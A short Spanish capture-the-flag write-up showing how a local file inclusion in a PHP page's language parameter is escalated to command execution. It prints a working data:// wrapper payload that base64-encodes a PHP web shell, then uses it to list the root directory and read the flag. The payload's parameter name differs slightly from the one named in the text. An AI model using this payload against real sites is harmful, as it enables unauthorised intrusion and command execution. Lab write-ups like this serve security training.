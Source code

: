 # LFI: PHP Wrapper -> RCE 👩‍💻

La página web que vulneraremos es:

![Web.PNG](./assets/04-Cuarto/01-web.PNG)

* Vemos el **atributo** `?language=<Archivo>.php` en el cual podemos lograr un LFI y, en este caso, derivarlo a un `RCE` 👩‍💻

---

El **payload** que usaremos será: `?languaje=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2bCg%3d%3d&cmd=[Comando]`

Con el anterior **payload** podemos ejecutar comandos en la máquina víctima

<p align="center">
    <img src="./assets/04-Cuarto/02-Test.PNG">
</p>

---

El enunciado nos dice que el archivo que contiene la **flag** se encuentra en la raíz del sistem (`/`), así que listaremos el contenido existente en esa ruta. 👨‍💻

<p align="center">
    <img src="./assets/04-Cuarto/03-ls.PNG">
</p>

---

Listamos el contenido del archivo con extensión `.txt`

<p align="center">
    <img src="./assets/04-Cuarto/04-flag.PNG">
</p>